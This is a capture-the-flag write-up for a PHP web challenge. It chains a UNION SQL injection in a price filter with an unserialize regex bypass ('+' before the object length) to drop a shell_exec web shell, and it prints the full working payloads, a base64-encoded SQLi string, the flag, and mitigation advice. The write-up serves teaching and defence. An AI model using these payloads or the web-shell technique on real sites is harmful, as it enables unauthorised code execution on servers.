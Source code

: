 ```yaml
---
title: Everyone loves canteen food
author: Poory
description: Welcome to the canteen's online menu, where you can check out the daily specials and their prices. But is everything as appetizing as it seems?
categories:
    - Web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** **PHP** website offering canteen food which can be filtered by a simple input
    **- Key Discoveries:** Input is processed via **SQL** and **PHP** `unserialize`
    **- Vulnerability:** The **SQL** query is injectable making the used **PHP** `unserialize` exploitable
    **- Exploitation:** Bypassing the **PHP** `unserialize` object regex via a `+` before the `uiv` part will result in RCE

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to exploit a **PHP** unserialize vulnerability via **SQL** injection, bypassing some weak regex filters.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Having a look at the website, we are welcomed by a beautiful gif showing all of the available food and some price input field with which we can filter the offered food. It is displaying all the items cheaper than the provided value:

![landing page](ctf/writeups/cscg/everyonelovescanteenfood/landing_page.png "landing page")

Clicking on the linked admin panel at the top greets us with a warm welcome message:

```
Only access allowed for canteen admin!!!
```

For this challenge, the source code is provided. The web server is implemented with plain **PHP** v7.1 - the exact **PHP** version will be important later. The flag itself is hidden in a `flag.txt` file with restrictive access flags and is being controlled by the `root` user. Next to the flag file is a `readflag` binary with which we can read out the flag. This is a typical RCE challenge setup.
<span>
The web server uses the [MVC pattern](https://de.wikipedia.org/wiki/Model_View_Controller) to provide the interactive functionality. There is an `AdminController.php` and a `CanteenController.php`, each with its appropriate `AdminModel.php` and `CanteenModel.php`. In addition to the capabilities of a normal user, the admin user can also access the logs of the website with the functionality in its controller. In the `AdminModel`, the class has some interesting functions like `__wakeup`, which will become important later. The `CanteenModel`, which is used by every normal user, implements two functions to obtain the data shown on the landing page. The first one `getFood` just fetches all of the food from the database, adds a log to `log.txt` and rerandomizes the prices for each food. The second one `filterFood` filters the shown food by applying the user input to a **SQL** query and thus fetching only a limited amount of the food. Both of these functions also contain some functionality for unserialization in specific cases. Having a closer look at these functions immediately reveals the following vulnerabilities:

- **SQL** injection - The user input `$price_param` for the `filterFood` function is concatenated with the query without any sanitization and prepared statements:
    
```php
$sql = "SELECT * FROM food where price < " . $price_param;
```

- **PHP** Unserialize - Probably for backwards compatibility, some parts of the **SQL** query result containing the `oldvalue` attribute are deserialized:

```php
if($obj->oldvalue !== '') {
    $dec_result = base64_decode($obj->oldvalue);
    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
        return 'Not allowed';
    }
    $uns_result = unserialize($dec_result);
```

Having these vulnerabilities, `filterFood` is the more interesting function, as we control the input parameter for this function.

# 3. SQL injection<a id="SQL injection"></a>
At first, we should analyze how to exploit the **SQL** injection as the called `unserialize` function is dependent on the results of the **SQL** query. The `SELECT` query is ideal for a `UNION` attack with which we can append arbitrary data to the rows from the database matching the initial query. So, using an **SQL** injection payload like:

```sql
500 UNION SELECT 0 AS id, 'Some very juicy meal' AS name, '' AS oldvalue, 0 AS price;
```

we get back the following confirming our successful **SQL** injection:

![sqli](ctf/writeups/cscg/everyonelovescanteenfood/sqli.png "sqli")

This means if we add a legitimate value for `oldvalue`, our user input will be processed by `unserialize`.

# 4. PHP unserialize<a id="php unserialize"></a>
Deserialization is a process where serialized data is converted back to actual data. The **PHP** `unserialize` will take a string and will create instantiated objects, arrays, integers, booleans and other stuff. Each of these data types has its own prefix. For example objects got the prefix `O:` followed by the length of the class name, the class name itself as a string and its attribute fields also written with the serialized notation like for example `O:1:"a":1:{s:5:"value";s:3:"100";}`. The **PHP** [documentation](https://www.php.net/manual/en/function.unserialize.php) describes some interesting internal behaviour:

```
If the variable being unserialized is an object, after successfully reconstructing the object, PHP will automatically attempt to call the `__unserialize` or `__wakeup()` methods (if one exists).
```

In the `AdminModel.php` we will find the implementation of the `AdminModel` for logging purposes. The class also has a `__wakeup` method creating an arbitrary file with arbitrary content:

```php
AdminModel {
    ...
    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);
    }
    ...
}
class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);
    }
}
```

This is a great target for the deserialization. So maybe we can just inject with the **SQL** vulnerability some payload like:

```php
O:10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

which creates a **PHP** file named `innocent.php` executing arbitrary commands given via the URL parameter `cmd`. Unfortunately, there is a little twist.
Before the `unserialize` call, the data is checked with a regex filter:

```php
if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
    return 'Not allowed';
}
```

The regex checks for strings starting with the prefix `O:`, followed by some digits and an arbitrary string. There are several data types you can deserialize, like integer, boolean, arrays, but also custom objects by starting with `C:`. Sadly, custom objects are not applicable in this case as none of the **PHP** classes implement `Serializable` and will give us RCE.
<span>
There must be another way to bypass the regex, something that's not obvious at first glance. The code is the best documentation, so let's dive into the implementation of **PHP** `unserialize`. We have to be careful with the version as the challenge doesn't use the latest **PHP** version, but v7.1. For the implementation, **PHP** uses the [re2c](https://re2c.org/) lexer generator. The length value `uiv` of the serialized object is parsed by the `parse_uiv` function, which implements some [interesting behaviour](https://github.com/php/php-src/blob/PHP-7.1.3/ext/standard/var_unserializer.re#L367). If it exists, it will skip a leading `+` character. With this information, we can easily bypass the regex as it only checks for digits in the `uiv` part.

# 5. Exploitation<a id="exploitation"></a>
Now we have to chain our vulnerabilities. For the `unserialize` call, we will use the following payload, which is very similar to the already mentioned one, but this time we add a `+` before the `uiv` part:

```php
O:+10:"AdminModel":2:{s:8:"filename";s:12:"innocent .php";s:10:"logcontent";s:37:"<?php echo(shell_exec($_GET['cmd']));";}
```

Because of the implementation of the `oldvalue` check, we have to encode it with base64. Adding it to our **SQL** injection, we get our payload:

```php
500 UNION SELECT 0 AS id, 'payload' AS name, 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTI6Imlubm9jZW50LnBocCI7czoxMDoibG9nY29udGVudCI7czozNzoiPD9waHAgZWNobyhzaGVsbF9leGVjKCRfR0VUWydjbWQnXSkpOyI7fQ==' AS oldvalue, 0 AS price;
```

Submitting this payload via the price input field will create a new **PHP** file. Accessing the server on the path `/innocent.php?cmd=/readflag` will then give us the flag.

# 5. Mitigation<a id="mitigation"></a>
This web server has some fundamental flaws. Starting with the **SQL** injection, you should always validate and sanitize any input. This vulnerability could have been simply prevented by using prepared statements. Moreover, the use of `unserialize` always comes with its risks, as presented with this challenge. So don't use `unserialize` if not necessary. Finally, don't use regex for filtering! Instead, rely on **PHP**'s built-in filtering functions like `filter_var` and others. Using regex for input validation can be overly error-prone, especially with complex patterns or edge cases, and may lead to unexpected behavior and security risks.


# 7. Flag<a id="flag"></a>
dach2025{sh1ty_r3g3x_w0nt_s4fe_y0u} 
